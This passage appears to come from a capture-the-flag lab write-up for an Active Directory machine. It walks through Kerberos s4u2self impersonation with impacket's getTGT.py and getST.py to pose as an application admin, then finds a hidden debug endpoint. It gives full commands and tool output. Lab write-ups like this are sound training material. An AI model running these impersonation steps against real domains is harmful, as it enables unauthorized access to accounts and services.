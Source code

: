 Now that we have service password, we can attempt to impersonate a user against the web application.


## Impersonation via s4u2self

Checking AD groups in BH, we can see that there is a group called "ShareAdmins". It's safe to assume that these are the admins of this sharing web application. This group is however a member of the "Protected Users" Group, which means that those users cant "easily" be impersonated when using techniques like Silver Tickets or Delegation.

One technique that allows to bypass this restriction is `s4u2self`. Using the `s4u2self` kerberos extension, allows the service user to request a service ticket to itself on behalf of an abitrary principal.

In order to perform the attack, we grab the latest `getST.py`, get a TGT for the service user and then impersonate one of the share admins, here ryan:

```terminal
wget https://raw.githubusercontent.com/fortra/impacket/master/examples/getST.py

getTGT.py lustrous2.vl/ShareSvc:'***' -dc-ip lustrous2.vl
export KRB5CCNAME=ShareSvc.ccache

python3 getST.py -self -impersonate "Ryan.Davies" -k -no-pass lustrous2.vl/ShareSvc -altservice HTTP/lus2dc.lustrous2.vl

[*] Impersonating Ryan.Davies
[*] Requesting S4U2self
[*] Changing service from ShareSvc@LUSTROUS2.VL to HTTP/lus2dc.lustrous2.vl@LUSTROUS2.VL
[*] Saving ticket in Ryan.Davies@HTTP_lus2dc.lustrous2.vl@LUSTROUS2.VL.ccache

export KRB5CCNAME=Ryan.Davies@HTTP_lus2dc.lustrous2.vl@LUSTROUS2.VL.ccache

curl --negotiate -u : http://lus2dc.lustrous2.vl -I
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/10.0
WWW-Authenticate: Negotiate oYG3MIG0oAMKAQChCwYJKoZIhvcSAQICooGfBIGcYIGZBgkqhkiG9xIBAgICAG+BiTCBhqADAgEFoQMCAQ+iejB4oAMCARKicQRvoRXYTpELGkalRdzUYEoK0+B5rco4hT/Y8P9ub0aI+19K1JaP5DHMdrZxTWzRgUxQdgiL95tEph+X1IJ8qKGThhmzSvzlepoGVmHBs5TwiWw5JpVfSnpjuiZdDKoqwGHmRqaWwYI8699fovUpQ+PV
Persistent-Auth: true
X-Powered-By: ASP.NET
Date: Sun, 22 Sep 2024 13:34:44 GMT
```

Starting firefox again, we can see we are logged in as an application admin and have a new upload option. In addition there is a hidden debug endpoint we can see in the source:

![lushare](lushare_admin.png)

```html
<!--
  <li class="nav-item">
      <a class="nav-link" href="/File/Debug">Debug</a>
  </li>
-->
```
